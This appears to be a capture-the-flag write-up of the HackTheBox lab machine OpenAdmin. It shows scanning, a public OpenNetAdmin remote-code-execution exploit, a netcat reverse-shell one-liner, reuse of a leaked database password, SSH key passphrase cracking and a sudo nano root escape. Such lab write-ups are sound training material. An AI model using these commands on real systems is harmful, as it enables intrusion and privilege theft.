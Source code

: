 ```yaml
---
title: OpenAdmin - easy HTB
date: 2023-10-10 10:11:53 +/-0800
categories: [writeup, hackthebox]
writeup: :title
permalink: /openadmin
tags: [htb, writeup, easy, Linux, CVE, Privileges Escalation]     # TAG names should always be lowercase
---
```


- OS: **Linux**
- Difficulty: **Easy**
- Author: **4nh4ck1ne**

### Scanning 

the challenges start with a scan of the most common ports: `nmap -A 10.10.10.171 -T4`

```       
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

We can see it is an Ubuntu machine !

### Enumeration 

before walk on the app you can lauch a gobuster brute force scan: `gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]

```

If you go on `/music` you can see an bouton name login. 

![/music](/assets/OpenAdmin/music.png)

Yon are redirect to an web page `/ona`, it is an app named OpenNetAdmin lets if an exploit existe on this current version (v18.1.1).

![ona](/assets/OpenAdmin/Ona.png)

Seems that yes because on exploitdb can find a code to exploit the vulnerability more it is an rce, this vulnerability will give us directly access to the server. If we look for a POC in python that works well. [POC](https://github.com/amriunix/ona-rce/tree/master)

```
#install reqirements
pip3 install --user requests

#Get the POC
git clone https://github.com/amriunix/ona-rce.git

#lauche the exploit
python3 ona-rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We are on the machine! I will migrate my shell to a tty shell thanks to a pwncat:

```
#lauch pwncat
pwncat :9001

#run the reverse connection
sh$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.3 9001 >/tmp/f
```

### Privileges Escalation

the first mouvement is www-data => jimmy so we now have a stable shell. To begin the elevation of privileges we will look at the files of the website at the password quetes.

in the site folders we can find in this directory /local/config a file named "database_settings.inc.php" containing a mysql database password.

```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```

I have tried to access the local database that which feasible but no information interested is there. I then try to reuse password on local users (joanna, jimmy) and that market for jimmy we are now jimmy : `su jimmy
#enter password n1nj4W4rri0R!`


Ok we are now jimmy user next is to become joanna.

If we are still looking in the web file you will necessarily see from the rating of/var/www. you will still find counting in /html we will say that this sounds the web file that we had everything with gobuster. If we look at the side of "internal" a whole new world offered to us. If we look at the confiuguration side of the apache2 server we can see that there is an active virtualhost on port 52846.

```
jimmy@openadmin:/etc/apache2/sites-available$ cat internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Let’s look at the php file more pret including main.php: `cat main.php
`

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

it seems that this application displays the private key of the user joanna tries to curl the url and see the result: `curl http://localhost:52846/main.php`

BIIM we have joanna’s private key, try to connect with: 
```
chmod 600 id_rsa

ssh -i id_rsa joanna@10.10.10.171                           
Enter passphrase for key 'id_rsa': 
```

Thin the key is protected by a passphrase let’s try cracking with john.

```
ssh2john id_rsa > passphrase.txt

john passphrase.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

We have cracked the key we can now log in and enter the secret of the key.

ok we are now on user Joanna to start enumeration I directly look at the sudo rights.

```
sudo -l

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

So the user joanna can therefore launch the command/bin/nano/opt/priv without password with must root, well let’s look at [GTfobins](https://gtfobins.github.io/#+sudo)  if there is a way to abuse nano.

![gtfobins](/assets/OpenAdmin/Gtfobins.png)

the abuse of nano binary is done as follows:

```
sudo /bin/nano /opt/priv

#Press control and R touch
^R
#Press ctrl+x touche
^X
#run the command
reset; sh 1>&0 2>&0
```

you Get the root Great job !! 

![root](/assets/OpenAdmin/root.png)
